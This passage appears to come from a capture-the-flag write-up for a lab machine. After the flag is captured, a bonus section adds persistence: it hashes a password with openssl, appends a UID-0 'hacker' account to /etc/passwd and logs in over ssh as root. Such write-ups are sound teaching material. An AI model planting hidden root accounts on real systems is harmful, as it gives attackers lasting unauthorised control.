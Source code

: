 Success! And there's our flag!

## Persistence (Bonus)

19) We're gonna set up a user to be able to enter the machine through the front door (ssh)


19.1) Generate a hash for the password in the kali machine:

```
┌──(kali㉿kali)-[/mnt/hgfs/kali-path]
└─$ openssl passwd hacker
$1$R7KWEbWt$ljsQw5U/zRS8WI.cSnl1m.
```

19.2) We add a line in `/etc/passwd` in the target machine for our new user+password

```
echo 'hacker:$1$R7KWEbWt$ljsQw5U/zRS8WI.cSnl1m.:0:0:root:/root:/bin/bash' >> /etc/passwd
```

(and verify)


```
cat /etc/passwd | grep hacker
hacker:$1$R7KWEbWt$ljsQw5U/zRS8WI.cSnl1m.:0:0:root:/root:/bin/bash
```

19.3) Testing:

```
┌──(kali㉿kali)-[/mnt/hgfs/kali-path]
└─$ ssh hacker@target    
hacker@target's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

95 packages can be updated.
0 updates are security updates.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@photographer:~# whoami
root
```

Success!


